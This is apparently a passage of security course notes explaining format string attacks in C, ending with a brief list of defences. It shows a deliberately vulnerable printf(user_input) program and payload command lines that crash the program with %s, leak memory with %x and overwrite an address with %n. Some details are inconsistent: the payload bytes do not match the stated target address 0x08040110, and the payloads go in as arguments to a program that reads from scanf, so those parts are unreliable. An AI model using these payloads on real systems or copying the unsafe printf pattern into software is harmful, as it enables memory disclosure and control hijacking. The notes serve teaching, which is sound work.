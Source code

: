 When `foo` is called, the stack frame is pushed onto the stack. The `printf` function reads the next value on the stack, which is `saved regs`.

---

By using a lot of `%s` in the format string, we can crash programs (DOS attack) or read arbitrary memory locations (information leak).

```c
int main(int argc, char *argv[]){
    char user_input[20];
    scanf("%s", user_input); 
    printf(user_input); 
    return 0;
}
```

`printf("%s")`:

- Fetch a number from the stack.
- Interpret it as a pointer, and print the memory at that location as a string.
- Until a `\0` is encountered.

To make the program crash, we simply let `printf` read a lot of `%s`.

```
./a.out "`python -c 'print "%s"*100'`"
```

To read arbitrary memory locations, we can use `%x` to read the stack.

```
./a.out "`python -c 'print "\x10\x01\x48\x08%s%s%s%s%x"'`"
```

To write arbitrary memory locations, we can use `%n`.

```c
int i;
printf("12345%n", &i);
```

`%n` writes the number of characters printed so far to the address pointed by the argument. If this code is executed, `12345` will be printed, and `i` will be set to 5.

Now back to the example:

```
./a.out "`python -c 'print "\x10\x01\x48\x08%s%s%s%s%n"'`"
```

This way address `0x08040110` will be overwritten with the number of characters printed so far.

## 5. Control Hijacking Defences

There are multiple ways to defend against control hijacking attacks.

- Fix bugs:
    - Using audit software to automatically detect vulnerabilities.
    - Rewrite software in type safe languages (e.g. Java, C#).
- Concede overflows:
    - Use safe functions (e.g. `strlcpy`).
- Runtime checks:
    - Halt process when buffer overflow is detected. (e.g. StackGuard, LibSafe)
